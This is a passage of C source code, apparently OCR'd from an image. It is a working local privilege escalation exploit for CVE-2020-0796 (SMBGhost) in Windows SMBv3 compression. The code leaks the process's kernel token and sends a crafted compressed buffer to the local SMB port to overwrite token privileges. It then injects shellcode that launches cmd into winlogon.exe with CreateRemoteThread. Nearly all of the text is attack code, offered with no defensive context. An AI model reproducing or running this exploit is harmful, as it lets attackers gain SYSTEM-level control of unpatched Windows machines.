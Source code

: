 ```
sock, (const char*)packet, sizeof(buf) + 0x10 + len, 0)) != SOCKET_ERROR) {		recv(sock, response, sizeof(response), 0);	}	free(packet);	return err;}void inject(void) {	PROCESSENTRY32 entry;	entry.dwSize = sizeof(PROCESSENTRY32);	uint8_t shellcode[] = {		 0x50, 0x51, 0x52, 0x53, 0x56, 0x57, 0x55, 0x6A, 0x60, 0x5A, 0x68, 0x63, 0x6D, 0x64, 0x00, 0x54,		 0x59, 0x48, 0x83, 0xEC, 0x28, 0x65, 0x48, 0x8B, 0x32, 0x48, 0x8B, 0x76, 0x18, 0x48, 0x8B, 0x76,		 0x10, 0x48, 0xAD, 0x48, 0x8B, 0x30, 0x48, 0x8B, 0x7E, 0x30, 0x03, 0x57, 0x3C, 0x8B, 0x5C, 0x17,		 0x28, 0x8B, 0x74, 0x1F, 0x20, 0x48, 0x01, 0xFE, 0x8B, 0x54, 0x1F, 0x24, 0x0F, 0xB7, 0x2C, 0x17,		 0x8D, 0x52, 0x02, 0xAD, 0x81, 0x3C, 0x07, 0x57, 0x69, 0x6E, 0x45, 0x75, 0xEF, 0x8B, 0x74, 0x1F,		 0x1C, 0x48, 0x01, 0xFE, 0x8B, 0x34, 0xAE, 0x48, 0x01, 0xF7, 0x99,		 0xff, 0xc2, // inc edx (1 = SW_SHOW)		 0xFF, 0xD7, 0x48, 0x83, 0xC4,		 0x30, 0x5D, 0x5F, 0x5E, 0x5B, 0x5A, 0x59, 0x58, 0xC3, 0x00	};	HANDLE snapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, NULL);	int pid = -1;	if (Process32First(snapshot, &entry) == TRUE) {		while (Process32Next(snapshot, &entry) == TRUE) {			if (lstrcmpiA(entry.szExeFile, "winlogon.exe") == 0) {				pid = entry.th32ProcessID;				break;			}		}	}	CloseHandle(snapshot);	if (pid < 0) {		printf("Could not find process\n");		return;	}	printf("Injecting shellcode in winlogon...\n");	HANDLE hProc = OpenProcess(PROCESS_ALL_ACCESS, FALSE, pid);	if (hProc == NULL) {		printf("Could not open process\n");		return;	}	LPVOID lpMem = VirtualAllocEx(hProc, NULL, 0x1000, MEM_RESERVE | MEM_COMMIT, PAGE_EXECUTE_READWRITE);	if (lpMem == NULL) {		printf("Remote allocation failed\n");		return;	}			if (!WriteProcessMemory(hProc, lpMem, shellcode, sizeof(shellcode), 0)) {		printf("Remote write failed\n");		return;	}		if (!CreateRemoteThread(hProc, NULL, 0, (LPTHREAD_START_ROUTINE)lpMem, 0, 0, 0)) {		printf("CreateRemoteThread failed\n");		return;	}	printf("Success! ;)\n");}int main(int argc, char* argv[]) {	WORD wVersionRequested = MAKEWORD(2, 2);	WSADATA wsaData = { 0 };	SOCKET sock = INVALID_SOCKET;	uint64_t ktoken = 0;	int err = 0;	printf("-= CVE-2020-0796 LPE =-\n");	printf("by @danigargu and @dialluvioso_\n\n");	if ((err = WSAStartup(wVersionRequested, &wsaData)) != 0) {		printf("WSAStartup() failed with error: %d\n", err);		return EXIT_FAILURE;	}	if (LOBYTE(wsaData.wVersion) != 2 || HIBYTE(wsaData.wVersion) != 2) {		printf("Couldn't find a usable version of Winsock.dll\n");		WSACleanup();		return EXIT_FAILURE;	}	sock = socket(AF_INET, SOCK_STREAM, IPPROTO_TCP);	if (sock == INVALID_SOCKET) {		printf("socket() failed with error: %d\n", WSAGetLastError());		WSACleanup();		return EXIT_FAILURE;	}	sockaddr_in client;	client.sin_family = AF_INET;	client.sin_port = htons(445);	InetPton(AF_INET, "127.0.0.1", &client.sin_addr);	if (connect(sock, (sockaddr*)& client, sizeof(client)) == SOCKET_ERROR) {		return error_exit(sock, "connect()");	}	printf("Successfully connected socket descriptor: %d\n", (int)sock);	printf("Sending SMB negotiation request...\n");	if (send_negotiation(sock) == SOCKET_ERROR) {		printf("Couldn't finish SMB negotiation\n");		return error_exit(sock, "send()");	}	printf("Finished SMB negotiation\n");	ULONG buffer_size = 0x1110;	UCHAR *buffer = (UCHAR *)malloc(buffer_size);	if (buffer == NULL) {		printf("Couldn't allocate memory with malloc()\n");		return error_exit(sock, NULL);	}	ktoken = get_process_token();	if (ktoken == -1) {		printf("Couldn't leak ktoken of current process...\n");		return EXIT_FAILURE;	}	printf("Found kernel token at %#llx\n", ktoken);	memset(buffer, 'A', 0x1108);	*(uint64_t*)(buffer + 0x1108) = ktoken + 0x40; /* where we want to write */	ULONG CompressBufferWorkSpaceSize = 0;	ULONG CompressFragmentWorkSpaceSize = 0;	err = RtlGetCompressionWorkSpaceSize(COMPRESSION_FORMAT_XPRESS, 		&CompressBufferWorkSpaceSize, &CompressFragmentWorkSpaceSize);	if (err != STATUS_SUCCESS) {		printf("RtlGetCompressionWorkSpaceSize() failed with error: %d\n", err);		return error_exit(sock, NULL);	}	ULONG FinalCompressedSize;	UCHAR compressed_buffer[64];	LPVOID lpWorkSpace = malloc(CompressBufferWorkSpaceSize);	if (lpWorkSpace == NULL) {		printf("Couldn't allocate memory with malloc()\n");		return error_exit(sock, NULL);	}	err = RtlCompressBuffer(COMPRESSION_FORMAT_XPRESS, buffer, buffer_size,		compressed_buffer, sizeof(compressed_buffer), 4096, &FinalCompressedSize, lpWorkSpace);	if (err != STATUS_SUCCESS) {		printf("RtlCompressBuffer() failed with error: %#x\n", err);		free(lpWorkSpace);		return error_exit(sock, NULL);	}		printf("Sending compressed buffer...\n");	if (send_compressed(sock, compressed_buffer, FinalCompressedSize) == SOCKET_ERROR) {		return error_exit(sock, "send()");	}	printf("SEP_TOKEN_PRIVILEGES changed\n");	inject();	WSACleanup();	return EXIT_SUCCESS;}
```
